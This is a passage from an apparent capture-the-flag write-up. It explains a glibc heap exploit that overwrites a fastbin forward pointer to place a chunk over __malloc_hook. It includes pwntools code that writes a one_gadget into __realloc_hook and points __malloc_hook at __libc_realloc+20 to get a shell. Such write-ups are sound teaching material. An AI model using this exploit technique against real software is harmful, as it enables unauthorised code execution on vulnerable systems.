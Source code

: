 When we overwrote the forward pointer, we can see the last chunk is our fake chunk:

![heap-bin-2.png](images/heap-bin-2.png)

So malloc the next chunk will give us control to `__malloc_hook`:

```python
payload = flat(
    b'A'*11, 
    libc.sym['one_gadget'],           # Overwrite __realloc_hook
    libc.sym['__libc_realloc']+20,    # Overwrite __malloc_hook
    )
raise_flower(0x68, payload, b'9'*8)
```

Because just `__malloc_hook` cannot satisfy the one gadget constraints so we need to set `__malloc_hook` to `__libc_realloc + 20` first and when it see `__realloc_hook` is not null, it will execute one gadget for us.

And finally, just make the program execute malloc again and we will get shell:

```python
p.sendlineafter(b' : ', b'1')
p.interactive()
```

Full script: [solve.py](solve.py)